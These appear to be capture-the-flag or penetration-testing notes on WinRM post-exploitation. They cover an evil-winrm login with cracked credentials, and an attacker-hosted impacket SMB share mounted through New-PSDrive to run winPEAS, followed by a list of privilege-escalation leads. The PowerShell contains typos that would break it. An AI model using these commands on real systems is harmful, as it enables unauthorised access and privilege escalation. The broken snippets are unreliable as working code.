

# winrm

`IP`: `10.10.10.10` (assumed)
`Cred`: `pawned` (least permissions)

## TLDR



## Local enum

`./evil-winrm.rb -u <user_found> -p <password_cracked> -i 10.10.10.10`

1. checks/validations
	- `cd C:\Users\xxx`
		- check for anything intresting
2. winPEAS (setting smbshare)
	- Goal: from winrm session using new PSDRive to mount the smb share.


- `Terminal $impacket_smb`
```shell
# smb server       #share  #dirtoshare               #user #pass
impacket-smbserver nullsmbshare $(pwd) -smb2support -user nullbrain -password nullbr41n

<impacket started..>
```

- `Terminal $evil-winrm`
```powershell
# Get new PS Drive, so need to store password in converto-string
$pass = convertto-securetstrign 'nullbr41n' -AsPlainText .Force
$pass  #validation

$cred = New-Object System.Management.Automation.PSCredential('nullbrain', $pass)

# We got credential object so now we can do PSDrive
New-PSDrive -Name nullbrain -PSProvider FileSystem -Credential $cred -Root \\IP\nullsmbshare

#<if success swe get prompt>
```

## Winpeas
```
cd nullbrain
./winPEAS.exe

<check output for anything intresting>
e.g:
- LAPS intalled?
	- requires admin to exploit
- cache login
	- requires admin to extract
- AV detected?
- C:\ permission to write in C:\
	- if any unquoted servicepath, this could be good way to privelege escalation
- comon SAM & SYSTEM Backup()
	- Check if its read protected
```
